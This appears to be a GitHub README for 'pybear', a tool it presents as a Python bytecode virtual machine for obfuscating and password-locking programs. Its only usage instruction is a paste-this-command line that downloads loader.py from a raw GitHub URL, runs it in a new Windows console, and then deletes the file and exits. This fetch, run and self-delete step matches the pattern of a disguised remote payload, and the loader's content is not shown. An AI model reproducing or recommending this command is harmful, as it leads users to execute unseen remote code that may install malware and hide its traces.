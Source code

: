 # pybear
A discrete, custom python bytecode virtual machine. Finally let's you obfuscate and password lock programs with ease.

# how to use
```python
curl -o pyb.py https://raw.githubusercontent.com/repossess/pybear/main/loader.py && start cmd.exe /k python pyb.py && timeout /t 1 >nul 2>&1 && del pyb.py && exit
